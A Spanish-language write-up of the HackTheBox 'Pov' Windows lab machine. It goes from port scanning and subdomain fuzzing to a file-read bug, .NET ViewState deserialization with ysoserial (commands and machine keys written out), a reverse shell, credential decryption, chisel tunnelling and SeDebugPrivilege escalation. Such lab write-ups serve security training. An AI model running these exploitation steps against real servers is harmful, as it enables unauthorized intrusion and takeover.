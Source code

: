 ```yaml
---
title: HTB Pov Writeup
date: 2024-06-11 08:00:00 -05:00
author: retxus
categories: [HTB, Windows]
tags: [Windows, http, chisel, Winrm, SeDebugPrivilege]
comments: false
image:
  path: /assets/img/HTB-Pov/Pov.png
---
```


Muy buenas con todos, el día de hoy voy a resolver la máquina `Pov` de HTB, espero que el procedimiento sea de su agrado y fácil de comprender.

## Reconocimiento

Primero vemos si tenemos conexión con la máquina y de paso gracias al `ttl` identificamos ante el tipo de máquina que estamos, en `linux` este suele ser de 64 y en `windows` de 128.

```bash
ping -c 1 10.10.11.251
PING 10.10.11.251 (10.10.11.251) 56(84) bytes of data.
64 bytes from 10.10.11.251: icmp_seq=1 ttl=127 time=96.3 ms

--- 10.10.11.251 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 96.253/96.253/96.253/0.000 ms
```

Vemos que el `ttl` de la máquina es de 127, el cual está próximo a 128 por ende nos encontramos ante una máquina `Windows`.

Ahora vamos a identificar los puertos abiertos dentro de la máquina, los invito a usar el siguiente `script` hecho en `bash`.

```bash
#!/bin/bash

GREEN="\e[32m"
RED="\e[31m"
RESET="\e[0m"

IP="$1"

if [ -z "$IP" ]; then
  echo "Uso: $0 <IP>"
  exit 1
fi

TEMP_FILE=$(mktemp)

echo -e "${GREEN}[+] Escaneando todos los puertos abiertos... ${RESET}"

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn "$IP" -oG "$TEMP_FILE"

# Extraer los puertos abiertos
PORTS=$(grep -oP '\d+/open' "$TEMP_FILE" | awk -F'/' '{print $1}' | tr '\n' ',' | sed 's/,$//'; echo)

rm "$TEMP_FILE"

if [ -z "$PORTS" ]; then
  echo -e "${RED}[-] No se encontraron puertos abiertos.${RESET}"
  exit 1
fi

echo -e "\n${GREEN}[+] Escanenado servicios en los puertos: $PORTS. ${RESET}\n"

nmap -sCV -p"$PORTS" "$IP" -oN target

echo -e "\n${GREEN}[+] Escano completado. Resultados en 'target'.${RESET}\n"
```

De preferencia es mejor usar este `script` como `root`, ya que algunos parámetros de `nmap`, requieren de privilegios elevados. Esto al final nos va a generar un archivo `target` que contiene la información de los puertos abiertos dentro de la máquina.

```bash
sudo ./scan.sh 10.10.11.44
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: pov.htb
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Usamos el comando `whatweb` para ver las tecnologías usadas en la web.
```bash
whatweb 10.10.11.251

http://10.10.11.251 [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[sfitz@pov.htb], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.11.251], Microsoft-IIS[10.0], Script, Title[pov.htb], X-Powered-By[ASP.NET]
```
No vemos nada interesante, pero en el título vemos lo que parece ser un dominio, así que, lo agregamos al `/etc/hosts`, para que la máquina sepa a dónde resolver.

```bash
127.0.0.1	localhost
::1		localhost
127.0.0.1	machinename.localhost	machinename

10.10.11.251    pov.htb
```

### Enumeración de subdominios
Como en la web no hay nada interesante que mostrar, buscamos algún subdominio.

```bash
ffuf -c -t 100 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "HOST: FUZZ.pov.htb" -u http://pov.htb -fw  3740
```
Encontamos uno y lo agragamos al `/etc/hosts`. Nos dirigimos al subdominio y vemos que nos redirige a una ruta y hay una opción de descargar un CV, así que capturamos esa petición con `BurpSuite`.

### Deserialization .NET (ysoerial)
![](/assets/img/HTB-Pov/1_Pov.png)

Vemos que hay un parámetro file, por donde se descarga el CV, así que podemos probar a intentar buscar otros archivos.

![](/assets/img/HTB-Pov/2_Pov.png)

Aquí podemos ver que estamos en la capacidad de leer archivos y lo comprobamos viendo el `/etc/hosts` de la máquina víctima, así que podemos buscar otros archivos interesantes. Como estamos ante `ASP.NET` podemos buscar un `web.config`.

![](/assets/img/HTB-Pov/3_Pov.png)

Aquí vemos cosas interesantes como la verisón del framework y unas keys, buscando un poco por la web nos encontramos con [esto](https://book.hacktricks.wiki/en/pentesting-web/deserialization/exploiting-__viewstate-parameter.html){:target="_blank"}, donde nos explican como mediante el parámetro `__VIEWSTATE`, teniendo las keys podemos enviar un payload serializado para ejecutar comandos, para esto vamos a hacer uso de [ysoserial](https://github.com/pwntester/ysoserial.net){:target="_blank"}, esto es un `.exe` para windows, pero lo podemos usar en linux siguiendo los pasos de [aquí](https://medium.com/@hypri0n/run-ysoserial-exe-on-kali-linux-47b344ddff27){:target="_blank"}.

## Ganando acceso
Así que primero validamos si podemos ejecutar comandos. Para ello vamos a lanzarnos un `ping` desde la máquina víctima.

```bash
wine ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "ping 10.10.16.36" --path="/portfolio" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```
El payload devuelto lo pegamos en el parámetro `__VIEWSTATE` y nos ponemos en escucha con `tcpdump`.

![](/assets/img/HTB-Pov/4_Pov.png)

Vemos que nos llegan los cuatro paquetes enviados por `windows` y ahora tratamos de ganar acceso, para ello nos vamos [aquí](https://www.revshells.com/){:target="_blank"}, yo hice uso de `Powershell#3 (Base64)`.


```bash
wine ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "payload rev shell" --path="/portfolio" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```
![](/assets/img/HTB-Pov/5_Pov.png)

Ahora logramos ganar acceso como el usuario `sfitz`.

## Movimiento lateral
En su directorio pesonal en `Documents`, logramos ver un archivo `.xml` con una contraseña encriptada, que pertenece al usuario `alaading`, como es una encriptación con powershell, nos apoyamos [aquí](https://stackoverflow.com/questions/63639876/powershell-password-decrypt){:target="_blank"} para descifrar la credencial.

![](/assets/img/HTB-Pov/6_Pov.png)

Como el usuario pertenece al grupo (Windows Remote Management), y el puerto `5985` está abierto internamente en la máquina, vamos a hacer uso de [chisel](https://github.com/jpillora/chisel/releases/tag/v1.9.1){:target="_blank"} para traernos ese puerto y hacer uso de `evil-winrm`.

![](/assets/img/HTB-Pov/7_Pov.png)

## Ecalada de pivilegios
Como el usuario `alaading` tiene el privilegio `SeDebugPrivilege`, podemos hacer uso de eso para escalar privilegios, como nos explican [aquí](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens){:target="_blank"}
Primero vemos alguna tarea que se ejecute como administrador como `winlogon` y vemos su PID, para eso usamos el siguiente comando.

```bash
tasklist /v /FO LIST
```

Subimos el [nc.exe](https://eternallybored.org/misc/netcat/){:target="_blank"} a la máquina para entablar una `rev shell`.
![](/assets/img/HTB-Pov/8_Pov.png)

Ahora ya somos `Administrator` y podemos ver la última flag.
